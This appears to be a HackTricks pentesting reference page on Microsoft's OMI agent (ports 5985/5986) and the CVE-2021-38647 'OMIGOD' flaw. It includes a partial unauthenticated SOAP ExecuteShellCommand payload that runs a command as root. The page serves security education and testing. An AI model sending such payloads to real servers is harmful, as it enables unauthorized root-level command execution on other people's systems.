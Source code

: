 # 5985,5986 - Pentesting OMI

{{#include ../banners/hacktricks-training.md}}

### **Basic Information**

**OMI** is presented as an **[open-source](https://github.com/microsoft/omi)** tool by Microsoft, designed for remote configuration management. It's particularly relevant for Linux servers on Azure that utilize services such as:

- **Azure Automation**
- **Azure Automatic Update**
- **Azure Operations Management Suite**
- **Azure Log Analytics**
- **Azure Configuration Management**
- **Azure Diagnostics**

The process `omiengine` is initiated and listens on all interfaces as root when these services are activated.

**Default ports** used are **5985** (http) and **5986** (https).

### **[CVE-2021-38647 Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647)**

As observed on September 16, Linux servers deployed in Azure with the mentioned services are susceptible due to a vulnerable version of OMI. This vulnerability lies in the OMI server's handling of messages through the `/wsman` endpoint without requiring an Authentication header, incorrectly authorizing the client.

An attacker can exploit this by sending an "ExecuteShellCommand" SOAP payload without an Authentication header, compelling the server to execute commands with root privileges.

```xml
<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing"
   ...
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>id</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>
```

For a more information about this CVE **[check this](https://github.com/horizon3ai/CVE-2021-38647)**.

## References

- [https://www.horizon3.ai/omigod-rce-vulnerability-in-multiple-azure-linux-deployments/](https://www.horizon3.ai/omigod-rce-vulnerability-in-multiple-azure-linux-deployments/)
- [https://blog.wiz.io/omigod-critical-vulnerabilities-in-omi-azure/](https://blog.wiz.io/omigod-critical-vulnerabilities-in-omi-azure/)

{{#include ../banners/hacktricks-training.md}}

